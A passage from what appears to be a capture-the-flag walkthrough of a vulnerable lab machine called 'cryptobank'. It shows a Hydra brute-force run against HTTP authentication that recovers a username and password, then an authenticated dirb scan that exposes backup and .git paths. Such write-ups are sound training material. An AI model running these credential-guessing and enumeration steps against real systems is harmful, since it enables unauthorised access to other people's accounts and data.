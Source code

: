 We should add these usernames to the list and run the attack again.

```r
m1m3@kali:~$ hydra -L users.txt -P passwords.txt -f 192.168.1.9 http-get /development

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:15/p:12), ~12 tries per task
[DATA] attacking http-get://192.168.1.9:80/development
[80][http-get] host: 192.168.1.9   login: julius.b   password: wJWm4CgV26
[STATUS] attack finished for 192.168.1.9 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) 
```

We can now access the development directory with username <i>julius.b</i> and password <i>wJWm4CgV26</i> 

<center><br>
<img src="/assets/img/uploads/cryptobank/development.png">
</center>

We see a page show message <i>only for development.</i> Next we will be running a dirb scan to search recursively into the development directory.

```r
m1m3@kali:~$ dirb http://cryptobank.local/development/ -u julius.b:wJWm4CgV26 -w  

-----------------         
DIRB v2.22   
By The Dark Raver  
-----------------  

---- Entering directory: http://cryptobank.local/development/backups/home/ ----

+ http://cryptobank.local/development/backups/home/.git/HEAD (CODE:200|SIZE:

+ http://cryptobank.local/development/backups/home/.htaccess (CODE:200|SIZE:12)

==> DIRECTORY: http://cryptobank.local/development/backups/home/development/

---- Entering directory: http://cryptobank.local/development/tools/ ----

+ http://cryptobank.local/development/tools/index.php (CODE:403|SIZE:687)

==> DIRECTORY: http://cryptobank.local/development/tools/Resources/ 

...
```
